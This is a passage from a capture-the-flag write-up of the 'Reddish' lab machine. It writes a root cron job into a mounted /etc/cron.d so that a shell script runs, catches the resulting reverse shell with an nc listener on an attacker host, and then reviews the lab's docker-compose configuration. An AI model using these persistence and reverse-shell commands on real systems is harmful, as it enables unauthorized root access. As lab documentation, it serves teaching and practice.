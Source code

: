 
Now write the cron:

    
    
    # cd /mnt/etc/cron.d/
    # ls
    mdadm
    popularity-contest
    # echo '* * * * * root sh /opt/shell.sh' > shell 
    

Catch the callback:

    
    
    root@kali# nc -lnvp 9010
    listening on [any] 9010 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 53548
    /bin/sh: 0: can't access tty; job control turned off
    # hostname
    reddish
    # whoami
    root
    

## Beyond Root

### Docker Configuration

Once I have root, I like to go back and look at how things were configured. In
this case, the docker configuration is interesting.

The docker configuration files are stored in `/opt/reddish_composition/`:

    
    
    root@reddish:/opt/reddish_composition# ls
    apache  docker-compose.yml  multi-nodered  redis  rsync  www
    

`docker-compose.yml` shows how the machines are run, including the shared
volume between redis and www, how the networks are laid out, and that backup
is running in privileged mode (`<--` comments added by me):

    
    
    version: '3'
    services:
      nodered:
        build: ./multi-nodered
        hostname: nodered
        ports:
         - "1880:1880"         <-- ports accessible from outside
        networks:
          - default
          - internal-network   <-- shared network with www/redis
        restart: always
      redis:
        build: ./redis
        hostname: redis
        volumes:
         - ./www:/var/www/html <-- shared volume with www
        networks: